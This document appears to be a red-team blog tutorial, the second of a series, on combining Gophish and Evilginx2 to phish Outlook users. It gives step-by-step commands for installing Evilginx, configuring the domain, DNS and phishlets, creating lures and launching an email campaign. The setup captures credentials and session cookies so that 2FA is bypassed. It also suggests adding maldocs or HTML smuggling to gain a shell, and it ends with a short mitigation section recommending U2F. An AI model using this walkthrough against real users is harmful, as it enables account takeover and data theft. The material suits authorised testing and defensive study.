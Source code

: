 ```yaml
---
title: Passing the Phish II
subtitle: Integrating Gophish & Evilginx for Session Hijacking and Bypassing 2FA Authentication
author: Babligan
date: 2021-06-28 00:34:00 +0800
categories: [Infrastructure]
tags: [gophish, evilginx, phishing]
---
```


At this point, we've should have covered the following according to the previous [post](https://babligan.github.io/posts/passing-the-phish/). 
- [x] Installation of Gophish
- [x] Setup SendGrid as our SMTP server
- [ ] Installation of Evilginx and setting up a lure
- [ ] Integrating Gophish and evilginx

In this post we'll cover the remaining bits. 

### 3. Installing and Running evilginx

We'll install evilginx on our second server. The official usage and installation of evilginx are available on the tool's official [Github project page](https://github.com/kgretzky/evilginx2). Before installing evilginx, we have to install Go of at least version 1.14.0.

To do so, follow these steps:

```shell
wget https://golang.org/dl/go1.16.5.linux-amd64.tar.gz
sudo rm -rf /usr/local/go && sudo tar -C /usr/local -xzf go1.16.5.linux-amd64.tar.gz
export PATH=$PATH:/usr/local/go/bin
source $HOME/.profile
```

Finally verify that you have GO installed.

```shell
go version
```

When you have GO installed, type in the following:

```shell
sudo apt-get -y install git make
git clone https://github.com/kgretzky/evilginx2.git
cd evilginx2
make
```

If you get this error, export the PATH variable again and reload bash.
![[error.png]](/assets/img/gophish/error.png)

Now that we have evilginx installed, let's run it. To do so run:

```shell
sudo ./bin/evilginx -p ./phishlets/
```

**IMPORTANT:** Ensure that there's no service running on ports TCP 443, TCP 80 and UDP 53. You may need to shutdown apache or nginx and any service used for resolving DNS that may be running. evilginx2 will tell you on launch if it fails to open a listening socket on any of these ports.
![[first-run.png]](/assets/img/gophish/first-run.png)

If you get this error, you'll want to check what service is using port 53 (it should be your default DNS resolver, so we just need to stop it and let evilginx run it's own in-built DNS server.)

```shell
sudo lsof -i :53
```

![[lsof.png]](/assets/img/gophish/lsof.png)

Then we'll stop it either by stopping the service or killing it using its PID then edit the resolv.conf file to use Google's DNS servers. If the echo command doesn't work, use nano or vim instead.

```shell
sudo systemctl stop systemd-resolved
rm /etc/resolv.conf
echo 'nameserver 8.8.8.8' > /etc/resolv.conf
```

When we restart evilginx, it should be fine.
![[second-run.png]](/assets/img/gophish/second-run.png)

The next step is the configuration of Evilginx. You have to specify the domain name and the IP address of your server:

```shell
config domain domain-name.com
config ip 1.2.3.4
```

![[config.png]](/assets/img/gophish/config.png)

Evilginx creates phishing links using phishlets. A phishlet is a YAML file that contains configuration to phish a specific website. You can access all the pre-defined phishlets at `/evilginx/phishlets` or you could view the available phishlets by typing `phishlets`.

![[phishlets.png]](/assets/img/gophish/phishlets.png)

To activate a phishlet, run the following command:
`phishlets hostname <phishlet> <hostname>` where the hostname is our domain. In our case, we want to use the outlook phishet. Therefore:

```shell
phishlets hostname outlook domain-name.com
```

![[activate.png]](/assets/img/gophish/activate.png)

For Evilginx to work correctly as a proxy, you will also have to configure the same sub-domains. To know which sub-domains are required, type:

```shell
phishlets get-hosts outlook
```

![[gethosts.png]](/assets/img/gophish/gethosts.png)

We have 3 subdomains to register: outlook, login and account. We'll register these using CNAME records on our domain registrar. On our hosting site (I'm using namechep, but the configuration is usually the same across registrars), we'll register 4 DNS records. The first will be an A record which points to the IP address of our VPS and the rest will be CNAME records for our sub-domains. One thing to note here, we don’t need to copy the `domain-name.com` part, we just need the preceding string.

![[dns.png]](/assets/img/gophish/dns.png)

Once your records have resolved (it usually takes less than 3 minutes or you could confirm with [DNSChecker](https://dnschecker.com)), we can continue with enabling our phish. To do so we run:

```shell
phishlets enable outlook
```

When enabling a phishlet, Evilginx will try to request SSL certificates from LetsEncrypt for the different sub-domains.

![[enable.png]](/assets/img/gophish/enable2.png)

Now that our phish is enabled, we'll generate a lure which is basically the link that a target clicks on. The lures have to be attached with our desired phishlet and a redirect has to be set to point towards the legitimate website that we are trying to harvest credentials for, otherwise they'll be rickrolled.

```shell
lures create outlook
lures edit 0 redirect_url https://outlook.live.com/owa/?nlp=1
lures get-url 0
```

![[lures.png]](/assets/img/gophish/lures2.png)

If you wanted to change the hostname of your lure you'd use one of the subdomains that we registered and set it as follows:

```shell
lures edit 0 hostname login.domain-name.com
```

Then you can go head and get the URL associated with the new hostname.

```shell
lures get-url 0
```

Once a target clicks on our URL, they will be sent to our phishlet. And when they enter the correct credentials, we can capture them and redirect them to the right location.

![[creds.png]](/assets/img/gophish/creds2.png)

Now that we've verified that everything works, let's tie it all together. The captured token can be imported into a browser with the EditThisCookie extension for example. By adding the cookie, the authentication is completely bypassed (even the 2FA) and the attacker has a complete access to the victim's account.

![[sessions2.png]](/assets/img/gophish/sessions2.png)

### 4. Create and Deploy our Phish

Back to Gophish's email template and now we can craft the email we want to send our target. I'll use a simple template from [crigg626 Github repo](https://github.com/criggs626/PhishingTemplates). I'll use the [Webmail Upgrade](https://github.com/criggs626/PhishingTemplates/blob/master/emails/Upgrade%20Webmail.html) template but feel free to use whichever one.
![[final-template.png]](/assets/img/gophish/final-template.png)

Just to make sure that it would land, I edited the href tag in the HTML code to point to our evilginx link.
![[href.png]](/assets/img/gophish/href.png)

To integrate our evilginx link, we'll edit our Landing page and import the link.
![[final-landing.png]](/assets/img/gophish/final-landing.png)
![[import.png]](/assets/img/gophish/import.png)

After we've checked that all sections have been filled correctly, we can finally launch our campaign.
![[final-campaign.png]](/assets/img/gophish/final-campaign.png)

When we check our email, we find it. Yay!
![[email.png]](/assets/img/gophish/email.png)

When we click the link it opens a new tab, which is the outlook login page we had setup with evilginx. (you might have to clear your browser cache or use a different browser entirely). We sign in with some dummy creds and we are able to retrieve them on our evilginx server.

![[redirect.png]](/assets/img/gophish/redirect.png)
![[sessions.png]](/assets/img/gophish/sessions.png)

### Improvements

1. To make the phishing email even more effective, you can choose to integrate it with a technique that is able to yield a shell. XSS, Maldocs, CSRF, HTML smuggling and many others can work.
2. For OPSEC, it is best to use infrastructure that you have complete control over. So, instead of using SendGrid, you can use your own mail server.
3. Ensure that you use TLS on **ALL** your phishing infrastructure which includes Gophish's listening server.

### Mitigation

1. For this type of attack, the primary defense would always be exercising a little bit of paranoia. **Always check the legitimacy of the domain that's visible on the address bar.**
2. However, this wouldn't be enough for big companies as it just requires one  user to submit their correct credetials and just like that attackers are able to steal large amounts of data. This is where U2F for unphishable 2nd factor authentication comes in. It uses a physical hardware that you plug into a USB port and you just press a button when the website asks you to. The U2F protocol is designed to take the website's domain as one of the key components in negotiating the handshake. This means that if the domain in the browser's address bar, does not match the domain used in the data transmission between the website and the U2F device, the communication will simply fail. This solution leaves no room for error and is totally unphishable using Evilginx method.

I hope you've learnt one or two things from this article. Be sure to check out these resources. Special thanks to [Gabriel](https://twitter.com/_thevivi) for reviewing this ~~long ass~~ post. If you have any questions, or if there's something I might have missed out, feel free to DM me on [Twitter](https://twitter.com/babligan). 

- <https://breakdev.org/evilginx-2-next-generation-of-phishing-2fa-tokens/>
- <https://breakdev.org/evilginx-advanced-phishing-with-two-factor-authentication-bypass/>
- <https://github.com/kgretzky/evilginx2>
